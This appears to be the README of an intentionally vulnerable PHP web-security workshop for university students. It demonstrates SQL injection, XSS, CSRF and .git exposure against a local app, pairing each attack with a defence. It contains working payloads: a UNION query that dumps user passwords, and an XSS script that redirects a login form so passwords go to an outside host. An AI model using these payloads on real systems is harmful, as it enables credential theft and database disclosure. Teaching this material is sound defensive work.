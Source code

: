 > **DISCLAIMER: code in this demonstration are intentionally vulnerable. Do not use this code in your application!**

# Web Application Security Demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

> Older version of this workshop is available [here](https://github.com/intraworlds/zcu-security-demo)

## Presentation
[Slides](PRESENTATION.pdf)

## Development
### Requirements
- PHP >=7.1
- PHP extensions PDO and pdo_sqlite

### Installation
Clone this repository `git clone https://github.com/intraworlds/workshop-web-security.git` or download [ZIP file](https://github.com/intraworlds/workshop-web-security/archive/master.zip)

### Run
Inside downloaded project run
```bash
php -S 127.0.0.1:8080
```

Then goto http://127.0.0.1:8080/

### Simulate attacks

#### SQL injection
- go to http://127.0.0.1:8080/sql-injection
- search for `' UNION SELECT name,password FROM user --`
- observe disclosed password

##### Defense
Prepare statement
```php
// prepare SQL statement on DB without arguments
$statement = $pdo->prepare($sql);

// send arguments separately (safely)
$statement->execute(['%' . $query . '%']);

// execute as normal
$users = $statement->fetchAll();
```

#### XSS
- goto http://127.0.0.1:8080/xss
- put following comment
```html
❤️<script>
var form = document.querySelector('form');
form.setAttribute('action', 'https://httpbin.org/post');
form.setAttribute('target', '_blank');
</script>
```
- observe that all following backer are sending passwords to malicious server

##### Defense
escape your outputs
```php
echo htmlspecialchars($comment);
```

#### CSRF
- goto http://127.0.0.1:8080/csrf
- login
- open http://127.0.0.1:8080/kittens.php
- go back to http://127.0.0.1:8080/csrf
- observe that new order was created under your login

##### Defense
use `$_POST` for request which modifies data
```php
// verify CSRF token send with form is valid
if ($_SESSION['csrf'] !== $_POST['csrf']) {
    http_response_code(403);
    exit;
}

// generate CSRF token for the next request
$_SESSION['csrf'] = bin2hex(random_bytes(16));
```

#### Directory traversal
- todo http://127.0.0.1:8080/.git/HEAD
- observe that you have complete access to `.git` folder therefore to all files

##### Defense
- build application without `.git`
- separate public content (images, styles, etc.)
- adjust configuration of your web server, eg.
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<Directory "public">
    <FilesMatch "((^$)|(^.+\.(css|map|js)$))">
        Require all granted
    </FilesMatch>
</Directory>
```


#### Weak hash algorithm
- obtain password hashes by SQL injection attack
- crack passwords by arbitrary online cracker (Rainbow table)

## Resources

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)
- Twitter
  - Michal Špaček [@spazef0rze](https://twitter.com/spazef0rze)
  - Vladimír Smitka [@smitka](https://twitter.com/smitka)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
 - [XSS in Avast Desktop AntiVirus](https://medium.com/bugbountywriteup/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968)
